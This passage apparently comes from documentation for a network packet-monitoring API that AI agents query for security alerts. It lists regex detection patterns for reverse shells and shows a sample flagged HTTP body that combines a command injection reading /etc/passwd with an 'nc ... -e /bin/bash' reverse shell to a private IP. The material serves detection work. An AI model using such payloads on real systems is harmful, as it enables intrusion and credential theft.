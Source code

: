 #### 5. **Reverse Shell Detection**
```regex
(nc|netcat|bash|sh)\s+.*\s+\d+\s*-e
(python|perl|ruby|php)\s+.*socket
/dev/tcp/.*:\d+
exec\s*\(.*socket
```

### Example Threat Detection Output
```json
{
  "http_body": "cmd=cat /etc/passwd; nc 192.168.100.15 4444 -e /bin/bash",
  "suspicious_patterns": [
    "Command injection pattern: (;|\\||&|`|\\$\\())\\s*(cat|ls|pwd|whoami|id|uname|ps|netstat|ifconfig)",
    "Reverse shell pattern: (nc|netcat|bash|sh)\\s+.*\\s+\\d+\\s*-e"
  ]
}
```

## Traffic Direction Values
- `outbound`: From attacker network (192.168.100.x) to external
- `inbound`: From external to attacker network
- `internal`: Within attacker network
- `external`: Neither source nor destination in attacker network

## AI Agent Usage Examples for Security Monitoring

### 1. Real-Time Attack Detection
```python
# Monitor for immediate threats from attacker network
response = requests.get(
    "http://192.168.200.2:6000/packets?"
    "direction=outbound&protocol=TCP&application=HTTP&recent=5"
)
packets = response.json()["packets"]

# Check for active attacks
for packet in packets:
    if 'suspicious_patterns' in packet:
        print(f"🚨 ACTIVE ATTACK DETECTED!")
        print(f"   Attacker: {packet['source_ip']}:{packet['source_port']}")
        print(f"   Target: {packet['dest_ip']}:{packet['dest_port']}")
        print(f"   Method: {packet.get('http_method', 'N/A')}")
        print(f"   URI: {packet.get('http_uri', 'N/A')}")
        print(f"   Threats: {packet['suspicious_patterns']}")
        
        # Trigger immediate response
        # - Block IP in firewall
        # - Send alert to SOC
        # - Log to SIEM
```
